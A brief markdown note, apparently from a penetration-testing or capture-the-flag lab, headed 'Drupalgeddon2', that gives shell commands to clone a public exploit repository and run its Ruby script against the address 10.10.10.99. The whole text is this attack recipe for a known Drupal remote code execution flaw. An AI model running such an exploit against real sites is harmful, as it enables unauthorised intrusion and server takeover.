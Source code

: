 # Drupalgeddon2

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
cd Drupalgeddon2
ruby drupalgeddon2.rb http://10.10.10.99
```
